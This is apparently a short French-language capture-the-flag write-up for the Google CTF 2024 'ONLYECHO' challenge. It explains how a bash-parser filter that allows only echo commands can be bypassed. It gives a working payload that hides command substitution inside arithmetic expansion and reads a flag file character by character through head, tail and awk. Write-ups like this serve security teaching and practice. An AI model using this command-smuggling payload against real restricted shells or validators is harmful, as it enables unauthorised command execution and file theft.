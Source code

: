 # ONLYECHO

```nc onlyecho.2024.ctfcompetition.com 1337```

code : [https://github.com/google/google-ctf/blob/main/2024/quals/misc-onlyecho/challenge/challenge.js](https://)

Le script utilise bash-parser pour vérifier que les seules commandes sont des "echo". Une fois la vérification effectué, on execute le script bash.

On peut afficher les variables d'environements:
```echo $SHELL```

On peut lister les répertoires:
```echo /*```

Le programme effectue un parsing de l'entrée, creé un arbre d'interpréteur bash, la seule commande autorisée est echo, les redirections sont interdites, on peut utiliser les pipes

Le parseur ne détecte pas les commandes à l'intérieur des opérations arithmétiques, la seule chose qu'on peut output c'est des nombres, on extrait les caractères 1 à 1 et on utilise awk pour récupérer le code ascii

```echo $((`head -c 42 /flag | tail -c 1 | awk 'BEGIN{for(n=0;n<256;n++)ord[sprintf("%c",n)]=n}{print ord[$1]}'`))```

Il suffit de changer 42 par la position du caractère à lire

